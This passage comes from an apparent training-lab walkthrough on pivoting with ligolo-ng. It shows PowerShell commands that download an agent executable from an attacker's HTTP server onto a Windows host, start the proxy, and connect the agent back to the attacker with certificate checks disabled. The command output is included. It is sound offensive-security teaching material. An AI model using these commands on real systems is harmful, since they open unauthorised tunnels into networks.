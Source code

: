 Students will open `PowerShell` and will download the `agent.exe` executable:

Code: powershell

```powershell
iwr -uri http://PWNIP:8000/agent.exe -o agent.exe
```

```
PS C:\Users\helen> iwr -uri http://10.10.15.174:8000/agent.exe -o agent.exe
```

Students will return to their workstations, they can terminate the Python HTTP server, and they will proceed to start `ligolo`'s proxy:

Code: shell

```shell
./proxy -selfcert
```

```
┌─[eu-academy-5]─[10.10.14.221]─[htb-ac-8414@htb-d4d4brjin5]─[~]
└──╼ [★]$ ./proxy -selfcert

WARN[0000] Using default selfcert domain 'ligolo', beware of CTI, SOC and IoC! 
WARN[0000] Using self-signed certificates               
ERRO[0000] Certificate cache error: acme/autocert: certificate cache miss, returning a new certificate 
WARN[0000] TLS Certificate fingerprint for ligolo is: A910475F1FBB2F071C47BC3CCF0685188A816C82CB654A25505479E67071293B 
INFO[0000] Listening on 0.0.0.0:11601                   
    __    _             __                       
   / /   (_)___ _____  / /___        ____  ____ _
  / /   / / __ \`/ __ \/ / __ \______/ __ \/ __ \`/
 / /___/ / /_/ / /_/ / / /_/ /_____/ / / / /_/ / 
/_____/_/\__, /\____/_/\____/     /_/ /_/\__, /  
        /____/                          /____/   

  Made in France ♥            by @Nicocha30!
  Version: 0.6.2

ligolo-ng » 
```

Subsequently, students will return to the RDP session to establish the dynamic port-forwarding using the agent previously transferred:

Code: powershell

```powershell
.\agent.exe -connect PWNIP:11601 -ignore-cert
```

```
PS C:\Users\helen> .\agent.exe -connect 10.10.14.221:11601 -ignore-cert

time="2024-07-11T03:49:21-05:00" level=warning msg="warning, certificate validation disabled"
time="2024-07-11T03:49:21-05:00" level=info msg="Connection established" addr="10.10.14.221:11601"
```
